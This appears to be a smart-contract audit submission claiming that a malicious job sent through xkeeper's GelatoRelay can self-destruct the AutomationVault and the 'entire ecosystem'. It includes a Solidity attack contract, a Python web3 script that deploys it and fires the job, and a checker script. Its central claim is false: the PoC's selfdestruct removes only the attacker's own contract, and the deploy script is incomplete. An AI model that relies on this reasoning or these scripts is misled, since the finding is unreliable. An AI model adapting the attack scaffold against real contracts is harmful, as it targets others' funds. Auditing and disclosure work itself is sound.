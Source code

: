 Amateur Silver Corgi

high

# Undetectable GelatoRelay Interaction Resulting to Ecosystem Self-Destruction in GelatoRelay.sol

## Summary
This vulnerability exploits the `GelatoRelay's` interaction with the `AutomationVault` contract to execute a malicious contract that can self-destruct the entire ecosystem. The attack remains undetectable as the malicious contract is disguised within legitimate job execution requests, taking advantage of the lack of proper verification and validation in the `GelatoRelay` contract. Through this exploit, an attacker can disrupt the entire system and potentially cause irreparable damage.

## Vulnerability Detail
The vulnerability lies in the lack of robust validation and security checks within the `GelatoRelay` contract when executing jobs. An attacker can exploit this weakness by submitting a malicious job disguised as a legitimate execution request. A malicious job  can contains a call to the `selfdestruct` function, targeting key components of the ecosystem such as the `AutomationVault` contract.

This malicious job can be injected through the exec function in the `GelatoRelay` contract, which is responsible for managing all executions coming from the `Gelato` network. Since there is insufficient verification of the job data or contract being called, the attacker can submit a request that includes the `selfdestruct` call.

The attack is difficult to detect because it can be embedded within legitimate job execution requests, and it may appear as normal network activity. Once the malicious job is executed, it can cause the `AutomationVault` contract, or other critical components, to self-destruct, leading to severe disruption of the entire ecosystem.

## Impact
-    An attacker can cause the `AutomationVault` contract to self-destruct, leading to the loss of all funds and data stored in the vault.
-    The destruction of the `AutomationVault` contract can result in the loss of user funds, potentially causing significant financial damage to individual users and investors.
-   The self-destruction of critical contracts can disrupt the normal functioning of the ecosystem, impacting other contracts and services that depend on the AutomationVault.

## Code Snippet
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol#L28


## Proof of Concept 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {IGelatoRelay} from '../../interfaces/relays/IGelatoRelay.sol';
import {IAutomationVault} from '../../interfaces/core/IAutomationVault.sol';

contract MaliciousContract {
    IGelatoRelay public gelatoRelay;
    address public owner;
    
    constructor(address _gelatoRelay) {
        gelatoRelay = IGelatoRelay(_gelatoRelay);
        owner = msg.sender; // The owner of the contract
    }

    // Send malicious job to self-destruct the entire ecosystem
    function triggerSelfDestruct(IAutomationVault automationVault) external {
        require(msg.sender == owner, "Only the owner can trigger self-destruct");

        // Define ExecData for self-destructing the contract
        IAutomationVault.ExecData[] memory execData = new IAutomationVault.ExecData[](1);
        execData[0] = IAutomationVault.ExecData({
            job: address(this), // Job points to the MaliciousContract
            jobData: abi.encodeWithSignature("selfDestruct()") // Call the self-destruct function
        });

        // Execute the malicious action through the GelatoRelay
        gelatoRelay.exec(automationVault, execData);
    }

    // Function that self-destructs the contract and any contract it is linked to
    function selfDestruct() external {
        selfdestruct(payable(owner)); // Self-destruct and send remaining funds to the owner
    }
}

```
and can also deploy via a script 

```bash
pip install web3
```
```python
from web3 import Web3
from web3.contract import Contract, ConciseContract

# Initialize a Web3 instance (using an Ethereum node endpoint)
web3 = Web3(Web3.HTTPProvider("https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID"))

# Your Ethereum account private key and address
account_private_key = "YOUR_PRIVATE_KEY"
account_address = "YOUR_ADDRESS"

# Define the contract ABI and bytecode for the POC contract
malicious_contract_abi = [
    # ABI goes here
]
malicious_contract_bytecode = "0x..."  # Bytecode goes here

# GelatoRelay contract address and ABI
gelato_relay_address = "GELATO_RELAY_CONTRACT_ADDRESS"
gelato_relay_abi = [
    # ABI goes here
]

# AutomationVault contract address and ABI
automation_vault_address = "AUTOMATION_VAULT_CONTRACT_ADDRESS"
automation_vault_abi = [
    # ABI goes here
]

# Create contract objects
gelato_relay_contract = web3.eth.contract(address=gelato_relay_address, abi=gelato_relay_abi)
automation_vault_contract = web3.eth.contract(address=automation_vault_address, abi=automation_vault_abi)

# Create a new account and unlock it
account = web3.eth.account.privateKeyToAccount(account_private_key)
web3.eth.default_account = account.address

# Deploy the malicious contract
MaliciousContract = web3.eth.contract(abi=malicious_contract_abi, bytecode=malicious_contract_bytecode)
transaction = MaliciousContract.constructor().buildTransaction({
    "from": account_address,
    "gas": 2000000,
    "gasPrice": web3.toWei("50", "gwei")
})

# Sign and send the transaction
signed_tx = web3.eth.account.sign_transaction(transaction, private_key=account_private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)

# Wait for the transaction to be confirmed
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
malicious_contract_address = tx_receipt.contractAddress

# Interact with the malicious contract
malicious_contract = web3.eth.contract(address=malicious_contract_address, abi=malicious_contract_abi)

# Create execData for the GelatoRelay contract
exec_data = [
    # Add your exec data here, including the malicious job call to self-destruct
]

# Execute the malicious job through the GelatoRelay contract
transaction = gelato_relay_contract.functions.exec(
    automation_vault_contract.address,
    exec_data
).buildTransaction({
    "from": account_address,
    "gas": 2000000,
    "gasPrice": web3.toWei("50", "gwei")
})

# Sign and send the transaction
signed_tx = web3.eth.account.sign_transaction(transaction, private_key=account_private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)

# Wait for the transaction to be confirmed
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)

print(f"Malicious job executed. Transaction hash: {tx_hash.hex()}")
```
You can now check whether the Contract still Exist
```python
from web3 import Web3

# Initialize a Web3 instance (using an Ethereum node endpoint)
web3 = Web3(Web3.HTTPProvider("https://mainnet.infura.io/v3/YOUR_INFURA_PROJECT_ID"))

# Define the address of the contract to check
contract_address = "CONTRACT_ADDRESS_TO_CHECK"

# Query the code at the specified address
contract_code = web3.eth.get_code(contract_address)

# Check if the code is empty
if contract_code == b"":
    print(f"The contract at address {contract_address} does not exist (it has been self-destructed).")
else:
    print(f"The contract at address {contract_address} still exists.")
```
## Tool used

Manual Review

## Recommendation
-    Ensure that only authorized and trusted addresses can execute functions within the contract, particularly those that may trigger self-destruct operations.
-    Consider implementing access control mechanisms like role-based access control (RBAC) to manage permissions.
-   Perform a whitelist check to verify that the function selector belongs to a legitimate function within the contract.
-   Carefully sanitize and validate inputs provided to the contract, ensuring that malicious data cannot be used to exploit the contract.
